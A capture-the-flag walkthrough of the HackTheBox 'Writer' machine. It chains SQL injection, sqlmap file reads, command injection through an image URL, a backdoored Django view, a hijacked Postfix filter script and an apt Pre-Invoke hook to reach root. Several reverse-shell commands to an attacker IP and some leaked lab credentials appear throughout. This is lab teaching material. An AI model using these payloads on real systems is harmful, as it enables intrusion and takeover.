

# Writer

## Machine Info


## Recon

### port

- nmap
  - 22, ssh
  - 80, http
  - 139 445, smb
  - 135, rpc

```console
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 98:20:b9:d0:52:1f:4e:10:3a:4a:93:7e:50:bc:b8:7d (RSA)
|   256 10:04:79:7a:29:74:db:28:f9:ff:af:68:df:f1:3f:34 (ECDSA)
|_  256 77:c4:86:9a:9f:33:4f:da:71:20:2c:e1:51:10:7e:8d (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```console
PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   open          netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   closed        isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown
```

### path

- gobuster: `/dashboard`, authentication page

```console
└─╼$ gobuster dir -u http://writer.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 64 -x php,html,txt --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://writer.htb/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/logout               (Status: 302) [Size: 208] [--> http://writer.htb/]
/contact              (Status: 200) [Size: 4905]
/about                (Status: 200) [Size: 3522]
/static               (Status: 301) [Size: 309] [--> http://writer.htb/static/]
/dashboard            (Status: 302) [Size: 208] [--> http://writer.htb/]
/server-status        (Status: 403) [Size: 275]
/administrative       (Status: 200) [Size: 1443]
Progress: 249136 / 249140 (100.00%)
===============================================================
Finished
===============================================================
```

### smb

- `writer2_project`: authentication needed

```console
└─╼$ smbmap -H 10.10.11.101

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.11.101:445        Name: writer.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        writer2_project                                         NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (writer server (Samba, Ubuntu))
```

## Foothold

### SQLi

**SQLi POC**:


**Manual Exploit**:

However, the hash value is unable to crack.

```console
'union select 1,database(),2,3,4,5,6;-- - => writer
' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata;-- - => information_schema,writer
' union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database();-- - => site,stories,users
' union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='users';-- - => id,username,password,email,status,date_created
' union select 1,concat(username,':',password),3,4,5,6 from writer.users;-- - => admin:118e48794631a9612484ca8b55f622d0 -> unable to crack
```

**SQLMAP Exploit**:

```console
sqlmap -r request.txt -p uname --batch -D writer -T users --dump
```

### LFI

**POC**:

```console
sqlmap -r request.txt --batch --privileges
...
[00:51:15] [INFO] adjusting time delay to 1 second due to good response times
'admin'@'localhost'
[00:52:33] [INFO] fetching number of privileges for user 'admin'
[00:52:33] [INFO] retrieved: 1
[00:52:34] [INFO] fetching privileges for user 'admin'
[00:52:34] [INFO] retrieved: FILE
database management system users privileges:
[*] %admin% [1]:
    privilege: FILE
...
```

**Enumerate local files**:

- `sqlmap -r request.txt --file-read=/etc/passwd`, usernames:
  - root
  - kyle
  - filter
  - john

```console
└─╼$ sqlmap -r request.txt --file-read=/etc/passwd
got a refresh intent (redirect like response common to login pages) to '/dashboard'. Do you want to apply it from now on? [Y/n] n
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] n
files saved to [1]:
[*] /home/qwe/.local/share/sqlmap/output/writer.htb/files/_etc_passwd
└─╼$ cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_etc_passwd | grep -E 'sh$'
root:x:0:0:root:/root:/bin/bash
kyle:x:1000:1000:Kyle Travis:/home/kyle:/bin/bash
filter:x:997:997:Postfix Filters:/var/spool/filter:/bin/sh
john:x:1001:1001:,,,:/home/john:/bin/bash
```

- `sqlmap -r request.txt --file-read=/etc/apache2/sites-enabled/000-default.conf`
  - port 80 site: `/var/www/writer.htb/writer.wsgi`
  - port 8080 site(not open to public): `/var/www/writer2_project/`


```console
└─╼$ cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_etc_apache2_sites-enabled_000-default.conf
# Virtual host configuration for writer.htb domain
<VirtualHost *:80>
        ServerName writer.htb
        ServerAdmin admin@writer.htb
        WSGIScriptAlias / /var/www/writer.htb/writer.wsgi
        <Directory /var/www/writer.htb>
                Order allow,deny
                Allow from all
        </Directory>
        Alias /static /var/www/writer.htb/writer/static
        <Directory /var/www/writer.htb/writer/static/>
                Order allow,deny
                Allow from all
        </Directory>
        ErrorLog ${APACHE_LOG_DIR}/error.log
        LogLevel warn
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

# Virtual host configuration for dev.writer.htb subdomain
# Will enable configuration after completing backend development
# Listen 8080
#<VirtualHost 127.0.0.1:8080>
#       ServerName dev.writer.htb
#       ServerAdmin admin@writer.htb
#
        # Collect static for the writer2_project/writer_web/templates
#       Alias /static /var/www/writer2_project/static
#       <Directory /var/www/writer2_project/static>
#               Require all granted
#       </Directory>
#
#       <Directory /var/www/writer2_project/writerv2>
#               <Files wsgi.py>
#                       Require all granted
#               </Files>
#       </Directory>
#
#       WSGIDaemonProcess writer2_project python-path=/var/www/writer2_project python-home=/var/www/writer2_project/writer2env
#       WSGIProcessGroup writer2_project
#       WSGIScriptAlias / /var/www/writer2_project/writerv2/wsgi.py
#        ErrorLog ${APACHE_LOG_DIR}/error.log
#        LogLevel warn
#        CustomLog ${APACHE_LOG_DIR}/access.log combined
#
#</VirtualHost>
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

- `sqlmap -r request.txt --file-read=/var/www/writer.htb/writer/__init__.py`
  - `from writer import app as application`: Import the `__init__.py` from the app folder
  - so, the writer package is in `/var/www/writer.htb/writer/__init__.py`

```console
└─╼$ cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_var_www_writer.htb_writer.wsgi
#!/usr/bin/python
import sys
import logging
import random
import os

# Define logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,"/var/www/writer.htb/")

# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get("SECRET_KEY", "")
```

```console
└─╼$ cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_var_www_writer.htb_writer___init__.py
```

- db conn code:

```python
connector = mysql.connector.connect(user='admin', password='ToughPasswordToCrack', host='127.0.0.1', database='writer')
```

- add **post** code:
  - able to upload an image from url(hidden from user interface)
  - the url must have `.jpg` inside, url scheme can be
    - `http://<ip>:<port>/<filename>` -> **file upload** (visit remote resource kali_machine.htb) & **SSRF** (visit local resource 127.0.0.1)
    - `file:///path/to/filename` -> **SSRF** (visit local file)
  - if the image is uploaded from the local, the file path is `/var/www/writer.htb/writer/static/img/<filename>`

> The `urllib.request.urlretrieve` function can use the file scheme to access files on the local file system. By using the file scheme, you can specify a URL for a local file path, which is typically formatted as `file:///path/to/your/file`. When you do this, `urlretrieve` actually copies the local file to the specified location without altering the file name.

```python
@app.route('/dashboard/stories/add', methods=['GET', 'POST'])
def add_story():
...
        if request.form.get('image_url'):
            image_url = request.form.get('image_url')
            if ".jpg" in image_url:
                try:
                    local_filename, headers = urllib.request.urlretrieve(image_url)
                    os.system("mv {} {}.jpg".format(local_filename, local_filename))
                    image = "{}.jpg".format(local_filename)
                    try:
                        im = Image.open(image)
                        im.verify()
                        im.close()
                        image = image.replace('/tmp/','')
                        os.system("mv /tmp/{} /var/www/writer.htb/writer/static/img/{}".format(image, image))
                        image = "/img/{}".format(image)
                    except PIL.UnidentifiedImageError:
                        os.system("rm {}".format(image))
                        error = "Not a valid image file!"
                        return render_template('add.html', error=error)
                except:
                    error = "Issue uploading picture"
                    return render_template('add.html', error=error)
            else:
                error = "File extensions must be in .jpg!"
                return render_template('add.html', error=error)
```

### File Upload & SSRF && Command Injection

**Now we can**:

1. upload file from local file: able to change filename -> upload file with customized name
2. add story function: file upload & ssrf -> visit local & remote resource

**System Command Injection**:

```python
os.system("mv {} {}.jpg".format(local_filename, local_filename))
```

If the local_filename can be customized, then the executed command could be `mv file.jpg;ping -c 1 <ip>; `. For correctly execute injected commands, we can use base64 to encode the payload, like `echo 'xxx' | base64 -d | sh`.

**POC**:

1. add story to upload a local file and change the filename with payload of system command injection
2. use ssrf to visit local uploaded image file and the `writer/__init__.py` code would execute os.system function to trigger the cmd injection


```console
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="author"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="title"

im qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="tagline"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image"; filename=""
Content-Type: image/png


-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/kali.jpg;echo 'cGluZyAtYyAxIDEwLjEwLjE0LjE0Cg==' | base64 -d | sh;
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="content"

im qwe yes
-----------------------------118533453010020168263738670579--
```

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:39:49.013364 IP 10.10.11.101 > 10.10.14.14: ICMP echo request, id 3, seq 1, length 64
03:39:49.013406 IP 10.10.14.14 > 10.10.11.101: ICMP echo reply, id 3, seq 1, length 64
03:39:49.053685 IP 10.10.11.101 > 10.10.14.14: ICMP echo request, id 4, seq 1, length 64
03:39:49.053713 IP 10.10.14.14 > 10.10.11.101: ICMP echo reply, id 4, seq 1, length 64
```

**Exploit**:


```console
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="author"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="title"

im qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="tagline"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image"; filename=""
Content-Type: image/png


-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/kali.jpg;echo 'YmFzaCAtYyAiYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjE0LzEyMzQgMD4mMSIK' | base64 -d | sh;
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="content"

im qwe yes
-----------------------------118533453010020168263738670579--
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.101] 35234
bash: cannot set terminal process group (1032): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@writer:/$ uname -a
uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@writer:/$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:a5:ab brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.101/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:a5ab/64 scope global dynamic mngtmpaddr
       valid_lft 86395sec preferred_lft 14395sec
    inet6 fe80::250:56ff:feb9:a5ab/64 scope link
       valid_lft forever preferred_lft forever
```

### SMB & SSRF

The leaked password of db connection can login to samba service: `kyle:ToughPasswordToCrack`

```console
└─╼$ smbmap -u kyle -p ToughPasswordToCrack -H 10.10.11.101

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.11.101:445        Name: writer.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  READ ONLY       Printer Drivers
        writer2_project                                         READ, WRITE
        IPC$                                                    NO ACCESS       IPC Service (writer server (Samba, Ubuntu))
```

```console
cat /home/qwe/.local/share/sqlmap/output/writer.htb/files/_etc_samba_smb.conf
#
# Sample configuration file for the Samba suite for Debian GNU/Linux.
#
#
# This is the main Samba configuration file. You should read the
# smb.conf(5) manual page in order to understand the options listed
# here. Samba has a huge number of configurable options most of which
# are not shown in this example
#
# Some options that are often worth tuning have been included as
# commented-out examples in this file.
#  - When such options are commented with ";", the proposed setting
#    differs from the default Samba behaviour
#  - When commented with "#", the proposed setting is the default
#    behaviour of Samba but the option is considered important
#    enough to be mentioned here
#
# NOTE: Whenever you modify this file you should run the command
# "testparm" to check that you have not made any basic syntactic
# errors.

#======================= Global Settings =======================
[writer2_project]
  path = /var/www/writer2_project
  valid users = @smbgroup
  guest ok = no
  writable = yes
  browsable = yes
```

Then, we know that we can **read** and **write** `writer2_project` dir and `/var/www/writer2_project/` is the home directory of port 8080 django service which can be visited using SSRF: `http://localhost:8080/#.jpg`.

> **`#`**: This character starts the fragment identifier in a URL. The fragment is used by web browsers to identify and scroll to a part of the webpage. For example, if you have a long HTML page, you might use fragment identifiers to jump to specific sections within the page.
>
> So, `http://localhost:8080/#.jpg` means `http://localhost:8080/index.html` with identifier `#.jpg`

**Exploit**:

1. change django service to inject system commands
2. use SSRF to visit local django service to trigger system command

```console
└─╼$ mkdir -p mnt/writer2_project
└─╼$ sudo mount -t cifs //10.10.11.101/writer2_project ./mnt/writer2_project -o username=kyle,password=ToughPasswordToCrack,vers=3.0
└─╼$ ls -al mnt/writer2_project
total 9
drwxr-xr-x 2 root root      0 Feb  6 05:15 .
drwxr-xr-x 1  501 dialout  96 Feb  6 05:21 ..
-rwxr-xr-x 1 root root    806 Feb  6 05:20 manage.py
-rwxr-xr-x 1 root root     15 Feb  6 05:20 requirements.txt
drwxr-xr-x 2 root root      0 May 16  2021 static
drwxr-xr-x 2 root root      0 Jul  9  2021 staticfiles
drwxr-xr-x 2 root root      0 May 19  2021 writer_web
drwxr-xr-x 2 root root      0 May 19  2021 writerv2
```

```console
└─╼$ cat models.py
from __future__ import unicode_literals

from django.db import models

# Create your models here.
└─╼$ cat urls.py
from django.conf.urls import url
from writer_web import views

urlpatterns = [
    url(r'^$', views.home_page, name='home'),
]
└─╼$ cat views.py
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)

---------------- after inject sys cmd ----------------------
└─╼$ cat views.py
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    import os;os.system("bash -c 'bash -i >&/dev/tcp/10.10.14.14/1234 0>&1'")
    template_name = "index.html"
    return render(request,template_name)
```

```console
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="author"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="title"

im qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="tagline"

qwe
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image"; filename=""
Content-Type: image/png


-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="image_url"

http://127.0.0.1:8080/#.jpg
-----------------------------118533453010020168263738670579
Content-Disposition: form-data; name="content"

im qwe yes
-----------------------------118533453010020168263738670579--
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.101] 36640
bash: cannot set terminal process group (983): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:~/writer2_project$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@writer:~/writer2_project$ uname -a
uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

### www-data -> kyle

Django service is running:

```console
www-data@writer:/var/www/writer2_project$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      40058/python3
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::445                  :::*                    LISTEN      -
tcp6       0      0 :::139                  :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 10.10.11.255:137        0.0.0.0:*                           -
udp        0      0 10.10.11.101:137        0.0.0.0:*                           -
udp        0      0 0.0.0.0:137             0.0.0.0:*                           -
udp        0      0 10.10.11.255:138        0.0.0.0:*                           -
udp        0      0 10.10.11.101:138        0.0.0.0:*                           -
udp        0      0 0.0.0.0:138             0.0.0.0:*                           -
```

Django site to enumerate database:

```console
www-data@writer:/var/www/writer2_project$ python3 manage.py dbshell
python3 manage.py dbshell
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 124117
Server version: 10.3.29-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [dev]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| dev                |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)


MariaDB [dev]> show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.001 sec)

MariaDB [dev]> describe auth_user;
describe auth_user;
+--------------+--------------+------+-----+---------+----------------+
| Field        | Type         | Null | Key | Default | Extra          |
+--------------+--------------+------+-----+---------+----------------+
| id           | int(11)      | NO   | PRI | NULL    | auto_increment |
| password     | varchar(128) | NO   |     | NULL    |                |
| last_login   | datetime(6)  | YES  |     | NULL    |                |
| is_superuser | tinyint(1)   | NO   |     | NULL    |                |
| username     | varchar(150) | NO   | UNI | NULL    |                |
| first_name   | varchar(150) | NO   |     | NULL    |                |
| last_name    | varchar(150) | NO   |     | NULL    |                |
| email        | varchar(254) | NO   |     | NULL    |                |
| is_staff     | tinyint(1)   | NO   |     | NULL    |                |
| is_active    | tinyint(1)   | NO   |     | NULL    |                |
| date_joined  | datetime(6)  | NO   |     | NULL    |                |
+--------------+--------------+------+-----+---------+----------------+
11 rows in set (0.001 sec)

MariaDB [dev]> sselect username,password,is_staff,is_active from dev.auth_user;
<ame,password,is_staff,is_active from dev.auth_user;
+----------+------------------------------------------------------------------------------------------+----------+-----------+
| username | password                                                                                 | is_staff | is_active |
+----------+------------------------------------------------------------------------------------------+----------+-----------+
| kyle     | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= |        1 |         1 |
+----------+------------------------------------------------------------------------------------------+----------+-----------+
1 row in set (0.001 sec)
```

Crack the hash value: `kyle:marcoantonio` and login using ssh.

```console
└─╼$ ssh kyle@$IP
The authenticity of host '10.10.11.101 (10.10.11.101)' can't be established.
ED25519 key fingerprint is SHA256:EcmD06Im3Ox+/6cWwJX2eaLFPlgm/TO0Jw20KJK1XSw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.101' (ED25519) to the list of known hosts.
kyle@10.10.11.101's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
...
Last login: Wed Jul 28 09:03:32 2021 from 10.10.14.19
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
kyle@writer:~$ uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

### kyle -> john

kyle has a group called `filter` and enumerate this group:

```console
kyle@writer:~$ find / -group filter -type f 2>/dev/null -ls
    16282      4 -rwxrwxr-x   1 root     filter       1021 Feb  6 09:10 /etc/postfix/disclaimer
kyle@writer:~$ cat /etc/postfix/master.cf
#
# Postfix master process configuration file.  For details on the format
# of the file, see the master(5) manual page (command: "man 5 master" or
# on-line: http://www.postfix.org/master.5.html).
#
# Do not forget to execute "postfix reload" after editing this file.
#
# ==========================================================================
# service type  private unpriv  chroot  wakeup  maxproc command + args
#               (yes)   (yes)   (no)    (never) (100)
# ==========================================================================
smtp      inet  n       -       y       -       -       smtpd -o content_filter=dfilt:
...
dfilt     unix  -       n       n       -       -       pipe
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

The `smtp` service defines how Postfix receives emails that are sent to the SMTP port over the network. Defined here is the `smtpd` daemon, which is responsible for listening for SMTP connections. The option `-o content_filter=dfilt:` instructs smtpd to filter the content of emails and uses the `dfilt` service as the filter. The `dfilt` service defines a pipe service for processing email content. It runs a script (`/etc/postfix/disclaimer`) which may be adding a disclaimer to the content of the emails. The service operates locally and executes with the permissions of the user `john`.

Then, we know that the local has a 25-port smtp service with Postfix. And when sending mails to john, the `/etc/postfix/disclaimer` script which is writable would be executed.

**Exploit**:

1. write reverse shell into disclaimer script
2. send mail to john through 25 port smtp service

```console
kyle@writer:/dev/shm$ cat mail.sh
#!/usr/bin/bash

(
echo "EHLO localhost"
sleep 1
echo "MAIL FROM:kyle@writer.htb"
sleep 1
echo "RCPT TO:john@writer.htb"
sleep 1
echo "DATA"
sleep 1
echo "Subject: Test Email"
echo ""
echo "This is the body of the email"
echo "."
sleep 1
echo "QUIT"
) | nc 127.0.0.1 25
kyle@writer:/dev/shm$ echo "bash -c 'bash -i >&/dev/tcp/10.10.14.14/1234 0>&1'" > /etc/postfix/disclaimer && ./mail.sh
220 writer.htb ESMTP Postfix (Ubuntu)
250-writer.htb
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as 6B4187E7
221 2.0.0 Bye
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.101] 35814
bash: cannot set terminal process group (42682): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$ id
id
uid=1001(john) gid=1001(john) groups=1001(john)
john@writer:/var/spool/postfix$ uname -a
uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
john@writer:/var/spool/postfix$
```

### john -> root

pspy to monitor processes: `sudo apt-get update` is a scheduled task as root privilege



```console
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
john@writer:~$ find / -group management 2>/dev/null -ls
    17525      4 drwxrwxr-x   2 root     management     4096 Jul 28  2021 /etc/apt/apt.conf.d
```

So, we know the apt.conf.d directory is writable => exploit apt-get

- https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/
- https://systemweakness.com/code-execution-with-apt-update-in-crontab-privesc-in-linux-e6d6ffa8d076

**Exploit**:

```console
john@writer:/etc/apt/apt.conf.d$ echo 'APT::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/sh -i 2>&1|nc 10.10.14.14 4321 >/tmp/f"};' > /etc/apt/apt.conf.d/00-pwn
```

```console
└─╼$ sudo rlwrap nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.101] 42130
/usr/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# uname -a
Linux writer 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> 80 http, 139 smb -> SQLi & LFI -> enum usernames & apache sites(80 public, 8080 private) & 80 site's db credential -> foothold:

1. file upload with cmd injection filename -> ssrf to visit uploaded file to trigger cmd
2. smb directory writable -> change 8080's code logic by injecting system command -> ssrf to visit 8080 django service -> execute injected command

www-data shell -> django service: dbshell to get hash value -> crack to get kyle's password -> kyle shell -> enum filter group file -> misconfig postfix with writable john-priv script which can be trigger by sending mails -> john shell -> enum management group file -> writable apt.conf.d -> apt-get update exploit -> root shell
